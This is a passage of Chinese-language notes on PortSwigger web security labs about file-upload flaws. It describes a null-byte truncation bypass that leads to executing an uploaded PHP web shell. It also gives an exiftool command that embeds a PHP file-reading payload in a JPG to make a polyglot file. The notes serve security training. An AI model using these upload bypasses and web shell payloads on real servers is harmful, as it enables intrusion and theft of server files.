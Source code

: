 提示只有图片能上传， 然后经测试其他什么都不能传

![image-20250715001551971](portswigger.assets/image-20250715001551971.png)

NULL截断绕过 随后照常访问files/avatars/muma.php并命令执行即可



## 33.实验室：通过多语言 Web Shell 上传执行远程代码

![image-20250715152150311](portswigger.assets/image-20250715152150311.png)

上传图片码

![image-20250715152345515](portswigger.assets/image-20250715152345515.png)

（创建一个多语言 PHP/JPG 文件，该文件本质上是一张普通图片，但其元数据中包含 PHP 有效负载。一个简单的方法是从命令行下载并运行 ExifTool，如下所示：

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php）
```

